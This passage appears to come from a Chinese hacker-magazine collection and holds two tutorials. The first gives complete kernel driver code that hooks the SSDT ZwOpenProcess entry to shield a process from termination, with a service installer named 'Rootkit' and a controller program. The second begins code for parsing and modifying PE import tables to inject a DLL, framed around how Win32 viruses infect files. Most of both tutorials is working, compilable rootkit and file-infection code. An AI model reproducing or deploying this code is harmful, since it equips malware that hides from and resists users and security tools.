        ioControlCode = IrpStack->Parameters.DeviceIoControl.IoControlCode;
        switch (ioControlCode)
        {
        case IOCTL_PROTECT_CONTROL:
            inSize = IrpStack->Parameters.DeviceIoControl.InputBufferLength;
            outSize = IrpStack->Parameters.DeviceIoControl.OutputBufferLength;
            inBuf = (long*)Irp->AssociatedIrp.SystemBuffer;
            DbgPrint("==============================\n");
            DbgPrint("IOCTL_PROTECT_CONTROL 被调用，通讯成功\n");
            DbgPrint("输入缓冲区大小: %d\n", inSize);
            DbgPrint("输出缓冲区大小: %d\n", outSize);
            DbgPrint("输入缓冲区内容: %ld\n", *inBuf);
            DbgPrint("当前保护进程ID: %ld\n", pid);
            DbgPrint("==============================\n");
            strcpy(Irp->UserBuffer, "OK\n");
            break;
        default:
            break;
        }
        break;
    default:
        DbgPrint("未知请求包被调用\n");
        break;
    }

    nStatus = Irp->IoStatus.Status;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return nStatus;
}
```

```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING theRegistryPath)
{
    // 驱动入口函数
    NTSTATUS ntStatus = STATUS_SUCCESS;
    UNICODE_STRING ntDeviceName;
    UNICODE_STRING DeviceLinkString;
    PDEVICE_OBJECT deviceObject = NULL;

    RtlInitUnicodeString(&ntDeviceName, NT_DEVICE_NAME);
    ntStatus = IoCreateDevice(DriverObject, 0, &ntDeviceName, FILE_DEVICE_UNKNOWN, 0, FALSE, &deviceObject);

    if (!NT_SUCCESS(ntStatus)) {
        DbgPrint("无法创建设备驱动");
        return ntStatus;
    }

    RtlInitUnicodeString(&DeviceLinkString, DOS_DEVICE_NAME);
    ntStatus = IoCreateSymbolicLink(&DeviceLinkString, &ntDeviceName);
    if (!NT_SUCCESS(ntStatus)) {
        DbgPrint("无法创建设备驱动");
        return ntStatus;
    }

    DriverObject->MajorFunction[IRP_MJ_CREATE] = DispatchDeviceControl;
    DriverObject->MajorFunction[IRP_MJ_CLOSE] = DispatchDeviceControl;
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = DispatchDeviceControl;
    DriverObject->DriverUnload = OnUnload;

    return STATUS_SUCCESS;
}
```

```c
#define IOCTL_PROTECT_CONTROL CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_BUFFERED, FILE_ANY_ACCESS)

NTSTATUS DispatchDeviceControl(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp);
VOID OnUnload(IN PDRIVER_OBJECT DriverObject);

#pragma pack(1)
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase;
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry_t;
#pragma pack()

__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;

#define SYSTEMSERVICE(_function) KeServiceDescriptorTable.ServiceTableBase[*(PULONG)((PUCHAR)_function + 1)]

NTSYSAPI NTSTATUS NTAPI ZwOpenProcess(...);
typedef NTSTATUS (*ZWOPENPROCESS)(...);
ZWOPENPROCESS OldZwOpenProcess;

NTSTATUS NewZwOpenProcess(...)
{
    if ((long)ClientId->UniqueProcess == pid) {
        return STATUS_ACCESS_DENIED;
    }
    nStatus = OldZwOpenProcess(ProcessHandle, DesiredAccess, ObjectAttributes, ClientId);
    return STATUS_SUCCESS;
}

VOID OnUnload(IN PDRIVER_OBJECT DriverObject)
{
    // 卸载时会调用
    ...
}
```

以上是一个标准的设备驱动代码，这个代码定义了一个通信命令 `IOCTL_PROTECT_CONTROL`，我们定义这个命令的作用就是传递进程 PID。下面我们修改部分代码，来实现 SSDT 的挂钩和进程保护。

```c
#include "ntddk.h"
#define NT_DEVICE_NAME  L"\\Device\\ProtectProcess"
#define DOS_DEVICE_NAME L"\\DosDevices\\ProtectProcess"
```

```c
PDEVICE_OBJECT DeviceObjectTemp2 = NULL;
DbgPrint("驱动程序卸载...\n");
RtlInitUnicodeString(&DeviceLinkString, DOS_DEVICE_NAME);
IoDeleteSymbolicLink(&DeviceLinkString);
if (DriverObject)
{
    DeviceObjectTemp1 = DriverObject->DeviceObject;
    while (DeviceObjectTemp1)
    {
        DeviceObjectTemp2 = DeviceObjectTemp1;
        DeviceObjectTemp1 = DeviceObjectTemp1->NextDevice;
        IoDeleteDevice(DeviceObjectTemp2);
    }
}
DbgPrint("设备已经卸载\n");
DbgPrint("修复SSDT表\n");
(ZWOPENPROCESS)(SYSTEMSERVICE(ZwOpenProcess)) = OldZwOpenProcess;
DbgPrint("驱动卸载完毕.\n");

NTSTATUS DispatchDeviceControl(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    // IRP_MJ_DEVICE_CONTROL 的响应函数
    NTSTATUS nStatus = STATUS_SUCCESS;
    ULONG IoControlCode = 0;
    PIO_STACK_LOCATION IrpStack = NULL;
    long* inBuf = NULL;
    char* outBuf = NULL;
    ULONG inSize = 0;
    ULONG outSize = 0;
    PCHAR buffer = NULL;
    PMDL mdl = NULL;
    Irp->IoStatus.Status = STATUS_SUCCESS;
    Irp->IoStatus.Information = 0;
    IrpStack = IoGetCurrentIrpStackLocation(Irp);
    switch (IrpStack->MajorFunction)
    {
    case IRP_MJ_CREATE:
        DbgPrint("IRP_MJ_CREATE 被调用\n");
        break;
    case IRP_MJ_CLOSE:
        DbgPrint("IRP_MJ_CLOSE 被调用\n");
        break;
    case IRP_MJ_DEVICE_CONTROL:
        DbgPrint("IRP_MJ_DEVICE_CONTROL 被调用\n");
        IoControlCode = IrpStack->Parameters.DeviceIoControl.IoControlCode;
        switch (IoControlCode)
        {
        case IOCTL_PROTECT_CONTROL:
            inSize = IrpStack->Parameters.DeviceIoControl.InputBufferLength;
            outSize = IrpStack->Parameters.DeviceIoControl.OutputBufferLength;
            inBuf = (long*)Irp->AssociatedIrp.SystemBuffer;
            pid = *inBuf;
            DbgPrint("=============================\n");
            DbgPrint("IOCTL_PROTECT_CONTROL 被调用,通讯成功\n");
            DbgPrint("输入缓冲区大小: %d\n", inSize);
            DbgPrint("输出缓冲区大小: %d\n", outSize);
            DbgPrint("输入缓冲区内容: %ld\n", *inBuf);
            DbgPrint("当前保护进程ID: %ld\n", pid);
            DbgPrint("=============================\n");
            strcpy(Irp->UserBuffer, "OK!\n");
            break;
        default:
            break;
        }
        break;
    default:
        DbgPrint("未知请求包被调用\n");
        break;
    }

    nStatus = Irp->IoStatus.Status;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return nStatus;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING the_RegistryPath)
{
    // 驱动入口函数
    NTSTATUS ntStatus = STATUS_SUCCESS;
    UNICODE_STRING ntDeviceName;
    UNICODE_STRING DeviceLinkString;
    PDEVICE_OBJECT deviceObject = NULL;
    DbgPrint("驱动程序加载...\n");
    RtlInitUnicodeString(&ntDeviceName, NT_DEVICE_NAME);
    ntStatus = IoCreateDevice(
        DriverObject,
        0,
        &ntDeviceName,
        FILE_DEVICE_UNKNOWN,
        0,
        FALSE,
        &deviceObject);
    if (!NT_SUCCESS(ntStatus))
    {
        DbgPrint("无法创建设备驱动");
        return ntStatus;
    }

    RtlInitUnicodeString(&DeviceLinkString, DOS_DEVICE_NAME);
    ntStatus = IoCreateSymbolicLink(&DeviceLinkString, &ntDeviceName);
    if (!NT_SUCCESS(ntStatus))
    {
        return ntStatus;
    }

    DriverObject->MajorFunction[IRP_MJ_CREATE] = DispatchDeviceControl;
    DriverObject->MajorFunction[IRP_MJ_CLOSE] = DispatchDeviceControl;
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = DispatchDeviceControl;
    DriverObject->DriverUnload = OnUnload;
    DbgPrint("驱动程序已经启动\n");
    DbgPrint("修改SSDT表...\n");

    // 修改 ZwOpenProcess 函数地址
    OldZwOpenProcess = (ZWOPENPROCESS)(SYSTEMSERVICE(ZwOpenProcess));
    (ZWOPENPROCESS)(SYSTEMSERVICE(ZwOpenProcess)) = NewZwOpenProcess;

    DbgPrint("驱动程序加载完毕\n");
    return STATUS_SUCCESS;
}
```

以上斜体部分就是我们新添加的代码，不是很多吧？但是却实现了好几个功能，我们一步一步分析。

```c
DbgPrint("修改SSDT表...\n");

// 修改 ZwOpenProcess 函数地址
OldZwOpenProcess = (ZWOPENPROCESS)(SYSTEMSERVICE(ZwOpenProcess));
(ZWOPENPROCESS)(SYSTEMSERVICE(ZwOpenProcess)) = NewZwOpenProcess;
```

这段代码先是将 ZwOpenProcess（实际就是 NtOpenProcess）的地址保存在 OldZwOpenProcess 里，然后用新函数的地址替换掉 SSDT 表中的 ZwOpenProcess（NtOpenProcess）。当驱动接收到控制命令以后，我们将传入缓冲区的内容保存在变量 pid 里，然后当调用到 NtOpenProcess 时，调用新函数里我们做相应过滤。

```c
NTSTATUS NewZwOpenProcess(OUT PHANDLE ProcessHandle,
IN ACCESS_MASK DesiredAccess,
IN POBJECT_ATTRIBUTES ObjectAttributes,
IN PCLIENT_ID ClientId OPTIONAL)
{
    // 用来替换的新函数
    NTSTATUS nStatus = STATUS_SUCCESS;
    if ((long)ClientId->UniqueProcess == pid)
    {
        DbgPrint("保护进程 PID:%ld\n", pid);
        return STATUS_ACCESS_DENIED;
    }

    // 剩下的交给我们的原函数
    nStatus = OldZwOpenProcess(ProcessHandle, DesiredAccess, ObjectAttributes, ClientId);
    return STATUS_SUCCESS;
}
```

到此，我们的驱动程序就编写完了。然后如图3所示的方法编译驱动，我们就会在 sys/i386 目录下产生一个名为 Protect.sys 的驱动文件。

#### 驱动安装

我们直接生成的是 SYS 驱动文件，无法直接双击运行，怎么办呢？常规方法是安装一个系统服务。当然，这里的服务安装后在服务管理器里是看不到的。我写了一个简单的控制台程序，代码如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <process.h>
#define BUF_SIZE 4096

int main(int argc, char* argv[])
{
    char path[BUF_SIZE];
    char base[BUF_SIZE];
    char sername[BUF_SIZE];
    char disname[BUF_SIZE];
    memset(path, 0, BUF_SIZE);
    memset(base, 0, BUF_SIZE);
    memset(sername, 0, BUF_SIZE);
    memset(disname, 0, BUF_SIZE);
    SC_HANDLE rh = NULL;
    SC_HANDLE sh = NULL;

    if (argc == 1)
    {
        printf("use: install/start/uninstall\n");
        exit(0);
    }

    GetModuleFileName(0, base, BUF_SIZE);
    int p = strlen(base);
    while (base[p] != '\\') { p--; }
    strncpy(path, base, p + 1);
    memset(base, 0, BUF_SIZE);
    sprintf(base, "%sInstall.ini", path);
    memset(path, 0, BUF_SIZE);

    GetPrivateProfileString("Config", "Path", "", path, BUF_SIZE, base);
    GetPrivateProfileString("Config", "ServiceName", "", sername, BUF_SIZE, base);
    GetPrivateProfileString("Config", "DisplayName", "", disname, BUF_SIZE, base);

    printf("[*]Service Name:%s\n", sername);
    printf("[*]Display Name:%s\n", disname);
    printf("[*]Driver Path:%s\n", path);

    sh = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (!sh)
    {
        printf("[-]Error OpenSCManager.\n");
        exit(0);
    }

    if (argc == 2 && !strcmp(argv[1], "install"))
    {
        if (!strcmp(path, ""))
        {
            printf("[-]error read Install.ini\n");
            exit(0);
        }

        rh = CreateService(sh, sername, disname,
            SERVICE_ALL_ACCESS,
            SERVICE_KERNEL_DRIVER,
            SERVICE_DEMAND_START,
            SERVICE_ERROR_NORMAL,
            path,
            NULL, NULL, NULL, NULL, NULL);
        if (!rh) {
            printf("[-]error CreateService.\n");
            exit(0);
        }
        printf("[+]Install Service Complete...\n");
    }
    else if (argc == 2 && !strcmp(argv[1], "start")) {
        rh = OpenService(sh, sername, SERVICE_ALL_ACCESS);
        if (!rh) {
            printf("error OpenService.\n");
            exit(0);
        }
        StartService(rh, NULL, NULL);
        printf("[+]Start Service Complete...\n");
    }
    else if (argc == 2 && !strcmp(argv[1], "uninstall")) {
        rh = OpenService(sh, sername, SERVICE_ALL_ACCESS);
        if (!rh) {
            printf("error OpenService.\n");
            exit(0);
        }
        SERVICE_STATUS ss;
        ControlService(rh, SERVICE_CONTROL_STOP, &ss);
        printf("[-]Stop Service Complete...\n");
        DeleteService(rh);
        printf("[-]Delete Service Complete...\n");
    }

    CloseServiceHandle(rh);
    CloseServiceHandle(sh);
    return 1;
}
```

```ini
; 服务名
ServiceName=Rootkit
; 服务显示的名字
DisplayName=RootkitKernel
```

代码我已做了详细注释，就不再解释了。这个程序有3个命令，Install 用来安装驱动，安装后使用 start 运行驱动，Start 用于运行驱动程序，Uninstall 用于卸载驱动。

不过安装好程序后还没有完，因为我们的驱动是独立运行的，所以需要再写个程序和它通信，这个任务就简单了，实现代码如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <winioctl.h>
#define IOCTL_HELLO_CONTROL CTL_CODE(FILE_DEVICE_UNKNOWN,0x800,METHOD_BUFFERED,FILE_ANY_ACCESS)

int main(int argc, char* argv[])
{
    long pid = 0;
    char ret[4096];
    DWORD ReBytes = 0;
    HANDLE hDevice = CreateFile("\\\\.\\ProtectProcess",
        GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        if (2 == GetLastError())
            printf("驱动程序未注册\n");
        else
            printf("CreateFile() GetLastError reports %d\n", GetLastError());
        return FALSE;
    }

    memset(ret, 0, 4096);
    printf("请输入需要保护的进程PID");
    scanf("%ld", &pid);
    DeviceIoControl(hDevice, IOCTL_HELLO_CONTROL,
        &pid, sizeof(long), ret, 4096, &ReBytes, NULL);
    printf("Return Value:%s\n", ret);
    CloseHandle(hDevice);
    return 1;
}

// ProtectProcess 是驱动的设备名
#define NT_DEVICE_NAME   L"\\Device\\ProtectProcess"
#define DOS_DEVICE_NAME  L"\\DosDevices\\ProtectProcess"
```

因为我经常要调试不同的驱动，每次改代码都比较麻烦，所以我采用 INI 的方式配置驱动的相关参数，INI 的内容如下：

```ini
[Config]
; 驱动的绝对路径
Path=E:\\WDM\\Protect\\sys\\i386\\Protect.sys
```

这里的 NT_DEVICE_NAME 就是设备名了。

#### 运行效果

大功告成，我们来看一下效果。首先，我们安装驱动，如图4所示。然后我们使用 Driver Monitor 查看驱动信息（DriverStudio 的一个组件，用于查看 DbgPrint 输出的调试信息），如图5所示。


现在运行我们的控制程序，来保护千千静听（TTPlayer.exe）的进程，PID 为 1836，如图6所示。注意图中 3 个画圈的地方，可以看到和驱动通信成功了。下面我们用任务管理器结束千千静听的进程试试，如图7所示，可以看到“拒绝访问”，证明我们的进程保护成功了。下面我们卸载掉驱动，卸载完毕，Driver Monitor 会显示驱动的卸载调试信息，如图8所示。至此，驱动就完美地卸载完成了。


#### 小结

- 1) 很多关于 RootKit 修改 SSDT 的文章，修改 SSDT 的时候都是使用内存描述符表（MDL）的方式来修改的。我采用了一种更简洁的方法直接赋值，根据测试没有什么不足。当然，本人水平有限，也可能有不足而没有发现，还请高手赐教。

- 2) 当驱动卸载的时候，在 Unload 函数里一定要记得复原 SSDT 表，否则当驱动卸载后，NtOpenProcess 函数的地址就会指向一个不存在的地址，这时会造成系统蓝屏。想当年我初学驱动的时候，蓝屏简直是家常便饭，而且机子又有 Tomcat、Mssql，而且还安了卡巴，启动起来暴慢，都闪得要死。个人经验：学驱动开发机子少装点东西，尤其是杀毒软件，这样启动起来速度快。

- 3) 设备驱动不用的时候一定要记得卸载，否则根据安装时候的参数决定。Create Service 的参数 SERVICE_DEMAND_START 表示手动启动，如果是参数 SERVICE_SYSTEM_START（代码里我注释起来了）则表示自动启动，开机后自动就运行了。

- 4) 关于 Driver Monitor，虽然是 DriverStudio 其中的一个工具，不过好像单独可以下载到。当然你下个 DriverStudio 更好，里面的很多其他工具也很实用。

- 5) 很多关于驱动开发的书都是说用 DriverStudio 生成框架，效果是一样的，不过结构性要强一些，但是个人觉得 DDK 虽然全部手写，但是更简洁明了。当然，这是个人习惯问题。

- 6) 另外，提一个新手比较容易犯的错误，就是代码的路径里一定不要有空格，比如“E:\WDM\RootKit Program”这种是绝对不行的，因为如果有空格就会破坏掉编译时候的参数。

## 感染PE文件加载DLL

文/图 Blackbeast


PE 文件，全称 Portable Executable 文件，是 Windows 系统可执行文件采用的普遍格式，像我们平时接触的 EXE、DLL、OCX 甚至 SYS 文件都属于 PE 文件的范畴。很多 Win32 病毒都是基于感染 PE 文件来进行传播的，今天我们就来尝试一下通过感染 PE 文件使其加载指定的 DLL。

## PE文件功能

众所周知，在 Windows 程序中需要调用各种各样的系统 API，这些 API 被微软封装在不同的 DLL 文件中，这些 DLL 会在进程启动时（或者需要时）加载到进程的地址空间，我们调用一个 API 都是基于如下的汇编代码实现的。

```asm
00411A3E  mov  esi,esp
00411A40  push 100h
00411A45  lea  eax,[strDllDir]
00411A4B  push eax
00411A4C  call dword ptr [__imp__GetWindowsDirectoryA@8 (42Bi80h)]
```

这些汇编代码是针对如下代码的反汇编结果。

```c
char strDllDir[256];
GetWindowsDirectory(strDllDir,256);
```

可见，调用一个系统 API 是在参数压栈后调用 Call 命令执行系统调用 GetWindowsDirectory() 的。上文说过，系统调用是通过 DLL 引入进程的，但是不同进程引入的 DLL 地址并不相同，程序是如何知道这个 Call 应该调用什么地址呢？这就需要 PE 文件发挥作用了。PE 文件里面定义了本文件包含的 API 地址相对偏移值，执行进程根据这个 PE 文件加载的基地址和相对偏移值就可以算出某个特定 API 在本进程地址空间的位置，并加以调用。此外，PE 文件还具有指定默认引入 DLL、导出 API 等其他功能，下文会一一详细介绍。

## 分析PE文件的准备工作

进行 PE 文件分析需要准备几个小软件，分别为 ExpScope，使用该程序可以打开一个 PE 文件进行分析，能够显示 PE 头结构、导入表、导出表和资源等相关信息；LordPE，它可以分析静态文件，也可以分析当前运行的进程，此外还提供简单的脱壳和 PE 文件修复功能，使用方便；WinDump，一个开源的 PE 文件分析软件，读者可以自行下载进行参考。

有了这几款软件，我们现在就可以进行 PE 文件的分析了。为了更生动地分析 PE 文件的结构，我们尝试编程剥离 PE 文件的层层结构，并对其进行修改以验证程序分析的正确性。

## PE文件头部分析

我们的分析以 Windows 自带的浏览器 IE 为例。首先建一个新的工程，选择 Windows 控制台程序即可，在该工程内导入类“CMapFile”，这个类可以将一个文件映射入内存，其工作原理是基于 Windows 的内存映射文件机制，实现细节不再赘述。我在《黑客防线》2007 年第 11 期的文章《分析PE资源》中已经介绍了这个类实现的具体细节，大家可以参考那篇文章。

PE 文件的头总体结构如图1所示，有关 DOS 头、PE 文件头、选项头的介绍，《分析PE资源》一文中也讲得很清楚了，大家自行翻阅即可。

| PE文件结构 |
|---|
| MS-DOS |
| MZ头部 |
| MS-DOS 实模式残余程序 |
| PE文件标志 |
| PE文件头 |
| PE文件可选头部 |
| .text 段头部 |
| .bss 段头部 |
| .rdata 段头部 |
| …… |
| .debug 段头部 |
| .text 段 |
| .bss 段 |
| .rdata 段 |
| …… |
| .debug 段 |

图1

## PE文件段

PE 文件段没有什么特定的结构特点，它几乎可以被链接器链接到 PE 文件的任何地方，程序执行时从 PE 文件定位段全靠段头部。具体结构我就不介绍了，大家可以参考 winnt.h 或者《分析PE资源》一文，这里只介绍几个重要的变量。VirtualAddress 这个域标识了进程地址空间中要装载这个段的虚拟地址。实际的地址由将这个域的值加上可选头部结构中的 ImageBase 虚拟地址得到。切记，如果这个映像文件是一个 DLL，那么这个 DLL 就不一定会装载到 ImageBase 要求的位置。所以一旦这个文件被装载进入了一个进程，实际的 ImageBase 值应该通过使用 GetModuleHandle 来检验。

SizeOfRawData 表示原始数据的大小，也就是根据 FileAlignment 进行对齐之前的数据大小。PointerToRawData 这是一个文件中段实体位置的偏移量。

现在我们就可以回过头解决数据目录定位的问题了。数据目录所指向的内容必然属于一个段实体，每个段在进程执行时被加载到进程地址空间的偏移量是由这个段头部的 VirtualAddress 确定的，这个值的含义和数据目录中的 VirtualAddress 含义相同，所以只要能够知道数据目录指向的数据究竟属于哪个段，就可以根据两个 VirtualAddress 的差值确定这个数据目录指向数据相对于这个段实体头部的偏移量，然后再根据段头部的 PointerToRawData 定位这个段实体在 PE 文件中的位置，就可以进一步确定该 DataDirectory 所对应数据在文件中的位置了。

下面的代码实现了根据 DataDirectory 数组下标确定其对应的数据位置的功能。

```c
LPVOID GetDataPositionByDataDirectoryIndex(BYTE *pFileImage, DWORD dwDataDirectoryIndex)
{
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pFileImage;
    PIMAGE_FILE_HEADER pFileHeader = (PIMAGE_FILE_HEADER)(pFileImage+pDosHeader->e_lfanew+4);
    PIMAGE_OPTIONAL_HEADER32 pOptionalHeader = (PIMAGE_OPTIONAL_HEADER32)(pFileImage+pDosHeader->e_lfanew+4+sizeof(IMAGE_FILE_HEADER));
    PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)(((char*)pOptionalHeader)+sizeof(IMAGE_OPTIONAL_HEADER32));

    if(dwDataDirectoryIndex>=pOptionalHeader->NumberOfRvaAndSizes)
    {
        return NULL;
    }

    PIMAGE_SECTION_HEADER pSectionBelong=NULL;
    for(int i=0;i<pFileHeader->NumberOfSections;i++)
    {
        if(pSectionHeader[i].VirtualAddress<=pOptionalHeader->DataDirectory[dwDataDirectoryIndex].VirtualAddress &&
           pSectionHeader[i].VirtualAddress+pSectionHeader[i].SizeOfRawData>=
           pOptionalHeader->DataDirectory[dwDataDirectoryIndex].VirtualAddress+
           pOptionalHeader->DataDirectory[dwDataDirectoryIndex].Size)
        {
            pSectionBelong=&(pSectionHeader[i]);
            break;
        }
    }

    if(pSectionBelong==NULL)
    {
        return NULL;
    }
    else
    {
        return pFileImage+pSectionBelong->PointerToRawData+
               pOptionalHeader->DataDirectory[dwDataDirectoryIndex].VirtualAddress-
               pSectionBelong->VirtualAddress;
    }
}
```

基于类似的原理，我们还可以实现从 VirtualAddress 向文件偏移量的转换，下面的函数就实现了这个功能。

```c
DWORD VirtualAddrToOffset(DWORD dwVirtualAddr, BYTE *pFileImage)
{
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pFileImage;
    PIMAGE_FILE_HEADER pFileHeader = (PIMAGE_FILE_HEADER)(pFileImage+pDosHeader->e_lfanew+4);
    PIMAGE_OPTIONAL_HEADER32 pOptionalHeader = (PIMAGE_OPTIONAL_HEADER32)(pFileImage+pDosHeader->e_lfanew+4+sizeof(IMAGE_FILE_HEADER));
    PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)(((char*)pOptionalHeader)+sizeof(IMAGE_OPTIONAL_HEADER32));

    PIMAGE_SECTION_HEADER pSectionBelong=NULL;
    for(int i=0;i<pFileHeader->NumberOfSections;i++)
    {
        if(pSectionHeader[i].VirtualAddress<=dwVirtualAddr &&
           pSectionHeader[i].VirtualAddress+pSectionHeader[i].SizeOfRawData>=dwVirtualAddr)
        {
            pSectionBelong=&(pSectionHeader[i]);
            break;
        }
    }

    if(pSectionBelong==NULL)
    {
        return 0;
    }
    else
    {
        return pSectionBelong->PointerToRawData+
               dwVirtualAddr-pSectionBelong->VirtualAddress;
    }
}
```

为了验证上述两个函数的正确性，我们可以尝试编程获得 iexplore.exe 导入表中导入的 DLL 名称。

```c
PIMAGE_IMPORT_DESCRIPTOR pImportDescriptor =
(PIMAGE_IMPORT_DESCRIPTOR)(pFileImage +
VirtualAddrToOffset(pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress, ...));
```

```c
while(pImportDescriptor->Characteristics!=0) {
    char *p = (char*)pFileImage + VirtualAddrToOffset(
        pImportDescriptor->Name, pFileImage);
    printf("Dll Name : %s\n", p);
    pImportDescriptor++;
}
```

程序运行结果如图2所示。


图2

在分析之前首先介绍一点，现在很多程序都会在某个特定段中实现多个段内容，如微软的浏览器 IE 就是在代码段中实现了导入段的内容，希望大家在分析时多加注意。

## 导入表内容分析

我们首先分析导入表的内容。在验证虚拟地址和文件偏移量转换算法的时候，我编写了一段代码，尝试输出导入的 DLL 名称，这其中就涉及了导入表的最基本结构。这里先分析 `IMAGE_IMPORT_DESCRIPTOR`，`winnt.h` 中对这个数据结构定义如下：

```c
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD Characteristics;
        DWORD OriginalFirstThunk;
    };
    DWORD TimeDateStamp;
    DWORD ForwarderChain;
    DWORD Name;
    DWORD FirstThunk;
} IMAGE_IMPORT_DESCRIPTOR;
```

第一个成员变量是一个 union，其实也就是一个 DWORD。这个成员变量既可以在为零的时候代表 `IMAGE_IMPORT_DESCRIPTOR` 数组结束，又可以表示一个 `IMAGE_THUNK_DATA` 数组的虚拟偏移地址，这个数组每一项代表一个引入函数。

第二个和第三个变量按照 PE 文件规范代表时间戳和数组长度，但在实验中这两个变量的值常为 `0xffffffff`。`Name` 是一个虚拟地址，指向以 `\0` 结尾的字符串，代表导入的 DLL 名称。`FirstThunk` 也是虚拟地址，指向 `IMAGE_THUNK_DATA` 数组，代表模块导入的函数。

为什么有两个虚拟地址都指向 `IMAGE_THUNK_DATA` 数组？在解释之前，先看其结构定义：

```c
typedef struct _IMAGE_THUNK_DATA32 {
    union {
        DWORD ForwarderString;
        DWORD Function;
        DWORD Ordinal;
        DWORD AddressOfData;
    } u1;
} IMAGE_THUNK_DATA32;
```

这个结构可以当作一个 DWORD 使用：当最高位为 1 时表示按序号导入；若最高位为 0，则该 DWORD 是一个虚拟地址，指向 `IMAGE_IMPORT_BY_NAME` 结构。

```c
#define IMAGE_ORDINAL32(Ordinal) (Ordinal & 0xffff)
```

```c
typedef struct _IMAGE_IMPORT_BY_NAME {
    WORD Hint;
    BYTE Name[1];
} IMAGE_IMPORT_BY_NAME;
```

在结构定义时虽然 `Name` 长度为 1，但在 PE 文件中它是以 `\0` 结尾的字符串，表示函数名称。可通过代码获取每个模块中的导入函数名。

```c
int _tmain(int argc, TCHAR* argv[]) {
    PVOID pPeImage = NULL;
    DWORD dwFileSize = 0;
    CMapFile cMapFile("iexplore.exe", true, pPeImage, dwFileSize);
    if (pPeImage == NULL) return 0;
    BYTE *pFileImage = (BYTE*)pPeImage;
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pFileImage;
}
```

```c
PIMAGE_FILE_HEADER pFileHeader = (PIMAGE_FILE_HEADER)(pFileImage + pDosHeader->e_lfanew + 4);
PIMAGE_OPTIONAL_HEADER32 pOptionalHeader = (PIMAGE_OPTIONAL_HEADER32)(pFileImage + pDosHeader->e_lfanew + 4 + sizeof(IMAGE_FILE_HEADER));
PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)(((char*)pOptionalHeader) + sizeof(IMAGE_OPTIONAL_HEADER32));

PIMAGE_IMPORT_DESCRIPTOR pImportDescriptor =
    (PIMAGE_IMPORT_DESCRIPTOR)(pFileImage + VirtualAddrToOffset(
        pOptionalHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT].VirtualAddress, pFileImage));

while (pImportDescriptor->Characteristics != 0)
{
    char *p = (char*)pFileImage + VirtualAddrToOffset(pImportDescriptor->Name, pFileImage);
    printf("Dll Name : %s\n", p);

    PIMAGE_THUNK_DATA pImageThunk =
        (PIMAGE_THUNK_DATA)(pFileImage + VirtualAddrToOffset(pImportDescriptor->OriginalFirstThunk, pFileImage));

    for (int i = 0; pImageThunk[i].u1.AddressOfData != 0; i++)
    {
        if (0 == (pImageThunk[i].u1.Ordinal & IMAGE_ORDINAL_FLAG))
        {
            PIMAGE_IMPORT_BY_NAME pImportByName =
                (PIMAGE_IMPORT_BY_NAME)(pFileImage + VirtualAddrToOffset(pImageThunk[i].u1.AddressOfData, pFileImage));
            printf("  Function %u Name : %s\n", i + 1, (char*)pImportByName->Name);
        }
    }
    pImportDescriptor++;
}
else
{
    printf("Map File Error");
    // IMAGE_IMPORT_DIRECTORY
}
getch();
return 0;
```

会有两个值都指向 IMAGE_THUNK_DATA 数组，其中的 OriginalFirstThunk 指向函数导入相关的 IMAGE_THUNK_DATA 结构，而 FirstThunk 指向的 IMAGE_THUNK_DATA 结构首位全部为零，进而指向一个 IMAGE_IMPORT_BY_NAME 结构，这个结构的 Name 对应一个长度为 1 的字符串“?”，而当这个 PE 文件被加载后，FirstThunk 就会变成这个函数在其加载进程地址空间中的位置了。

#### 修改导入表加载 DLL

下面我们尝试给这个文件导入表加一个 DLL。为了完成这项工作，首先准备功能函数 OffsetToVirtuanAddr()，用来将文件偏移量转换成虚拟地址，实现代码如下：

```c
DWORD OffsetToVirtuanAddr(DWORD dwOffset, BYTE *pFileImage)
{
    PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)pFileImage;
    PIMAGE_FILE_HEADER pFileHeader = (PIMAGE_FILE_HEADER)(pFileImage + pDosHeader->e_lfanew + 4);
    PIMAGE_OPTIONAL_HEADER32 pOptionalHeader =
        (PIMAGE_OPTIONAL_HEADER32)(pFileImage + pDosHeader->e_lfanew + 4 + sizeof(IMAGE_FILE_HEADER));
    PIMAGE_SECTION_HEADER pSectionHeader =
        (PIMAGE_SECTION_HEADER)(((char*)pOptionalHeader) + sizeof(IMAGE_OPTIONAL_HEADER32));

    PIMAGE_SECTION_HEADER pSectionBelong = NULL;
    for (int i = 0; i < pFileHeader->NumberOfSections; i++)
    {
        if (pSectionHeader[i].PointerToRawData <= dwOffset &&
            pSectionHeader[i].PointerToRawData + pSectionHeader[i].SizeOfRawData >= dwOffset)
        {
            pSectionBelong = &(pSectionHeader[i]);
            break;
        }
    }
